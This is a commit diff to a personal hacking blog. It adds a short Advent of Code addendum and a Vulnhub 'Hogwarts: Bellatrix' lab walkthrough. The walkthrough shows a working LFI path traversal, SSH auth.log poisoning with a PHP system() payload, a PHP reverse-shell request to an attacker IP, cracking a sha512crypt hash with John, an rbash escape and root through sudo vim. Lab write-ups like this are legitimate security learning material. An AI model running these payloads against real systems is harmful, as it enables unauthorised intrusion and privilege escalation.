

Before and after one commit to 0xordinaryday/blog, a Jekyll site: the page built from hacking/index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Add bellatrix, edit AoC

```diff
--- a/hacking/_posts/2020-12-04-aoc.md
+++ b/hacking/_posts/2020-12-04-aoc.md
@@ -21,3 +21,6 @@
 When I say unusable, I mean I can connect to the VPN and deploy a room, but if I try to (say) view a webpage in a room, several minutes passes and the browser throws a timeout message. So, effectively unusable.
 
 To complete the AoC challenges so far (I've done three of them, they are  beginner level) I've had to use the 'attackbox'; this works okay. But it's pretty clunky and I don't much like it. I've been thinking of subscribing to the site; this does give some additional resources so it might make the site usable again during AoC (I assume it would) - if I do, I'll write up my thoughts. If I don't, there won't be any THM for a while.
+
+## Addendum
+After I wrote this I started the next AoC challenge the following day; it was SQLi using sqlmap, no big deal. But with the laggy network the 'attackbox' wouldn't finish dumping the database contents with sqlmap before it timed out (one hour per day for free tier users), so I literally couldn't complete the task. Um, yeah. I'm not complaining because it's free, but I'm definitely putting THM to one side until AoC is over and done with.
--- /dev/null
+++ b/hacking/_posts/2020-12-09-bellatrix.md
@@ -0,0 +1,130 @@
+---
+layout: post
+title:  "Vulnhub - HOGWARTS: BELLATRIX"
+date:   2020-12-09 22:00:00 +1100
+category: hacking
+---
+
+## Introduction
+*The evil Bellatrix Lestrange has escaped from the prison of Azkaban, but as ... Find out and tell the Minister of Magic
+Difficult: Medium
+This works better in VirtualBox
+Hints --> Brute force is not necessary, unless it is required. ncat is the key ;)*
+
+This is [HOGWARTS: BELLATRIX](https://www.vulnhub.com/entry/hogwarts-bellatrix,609/) from Vulnhub.
+
+## Ports
+SSH and HTTP only.
+
+## HTTP
+On the front page of the website we get a long string of text repeating the phrase *ikilledsiriusblack* 44 times (I think) and finally ending with **.php**. In the page source we get the following hints:
+
+>Nah ... this time there are no clues in the source code ...
+o yeah, maybe I've already told you a directory .php? :)
+
+And:
+
+{% raw %}
+/*
+   $file = $_GET['file'];
+   if(isset($file))
+   {
+       include("$file");
+   }
+*/
+{% endraw %}
+
+In case it's not obvious: the PHP code provides an LFI vulnerability, and the hint about ncat in the description suggests log poisoning. Let's dig in.
+
+
+## LFI
+The hints made it relatively obvious, but the LFI was here:
+
+``
+http://bellatrix/ikilledsiriusblack.php?file=../../../../../../../../../../../etc/apache2/apache2.conf
+``
+
+With /etc/passwd I could see we had two users, *lestrange* and *bellatrix*. I haven't read (or watched) Harry Potter so I don't know if these two are related or something. My daughter is reading it now, maybe she can tell me. I could read the apache configuration files, but even though I knew where the log files were I couldn't read them. So how to do the log poisoning?
+
+## SSH/Auth log
+You can do [auth.log](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/) poisoning with an attempted SSH login:
+
+``
+root@kali:/opt/vulnhub/bellatrix# ssh "<?php system($_GET['cmd']); ?>"@192.168.1.158
+``
+
+And I *could* read **/var/log/auth.log**; so this was the way in. When I read auth.log with the LFI I couldn't see my PHP code above where I thought it should be, but I sent a few commands with Burp Suite repeater and it was definitely responding, eg:
+
+``
+GET /ikilledsiriusblack.php?file=../../../../../../../../../../../var/log/auth.log&cmd=pwd HTTP/1.1
+``
+
+This was my shell command:
+
+``
+GET /ikilledsiriusblack.php?file=../../../../../../../../../../../var/log/auth.log&cmd=php+-r+'$sock%3dfsockopen("192.168.1.150",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
+``
+
+And I was in.
+
+## On the box
+In */var/www/html* we find *'c2VjcmV0cw=='*. Uh ... what?
+
+{% highlight shell %}
+www-data@bellatrix:/var/www/html$ echo 'c2VjcmV0cw==' | base64 -d
+echo 'c2VjcmV0cw==' | base64 -d
+secrets
+{% endhighlight %}
+
+Oh, okay then. In there we have:
+
+{% highlight shell %}
+4.0K drwxr-xr-x 2 root root 4.0K Nov 28 11:41 .
+4.0K drwxr-xr-x 3 root root 4.0K Nov 28 09:23 ..
+4.0K -rw-r--r-- 1 root root 1.3K Nov 28 08:42 .secret.dic
+4.0K -rw-r--r-- 1 root root  117 Nov 28 11:41 Swordofgryffindor
+{% endhighlight %}
+
+That's a list of possible password (.secret.dic) and a hash (Swordofgryffindor):
+
+>lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0
+
+I'll give them both to John:
+
+{% highlight shell %}
+root@kali:/opt/vulnhub/bellatrix# john hash -w=./possible_passwords
+Using default input encoding: UTF-8
+Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
+Cost 1 (iteration count) is 5000 for all loaded hashes
+Will run 4 OpenMP threads
+Press 'q' or Ctrl-C to abort, almost any other key for status
+ihateharrypotter (lestrange)
+{% endhighlight %}
+
+Now we can SSH in as *lestrange*.
+
+## Lestrange
+Lestrange has *rbash* as his login shell, which makes life difficult. We can [escape](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/) it though:
+
+``
+root@kali:/opt/vulnhub/bellatrix# ssh lestrange@bellatrix -t "bash --noprofile"
+``
+
+Once we've done that, we find out *lestrange* can use *vim* as anyone, and that's our privesc per [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo):
+
+{% highlight shell %}
+lestrange@bellatrix:/dev/shm$ sudo -l
+Coincidiendo entradas por defecto para lestrange en bellatrix:
+    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
+    (ALL : ALL) NOPASSWD: /usr/bin/vim
+lestrange@bellatrix:/dev/shm$ sudo -u root /usr/bin/vim -c ':!/bin/sh'
+
+# whoami
+root
+root{ead5a85a11ba466011fced308d460a76}
+# id;hostname
+uid=0(root) gid=0(root) grupos=0(root)
+bellatrix
+{% endhighlight %}
```
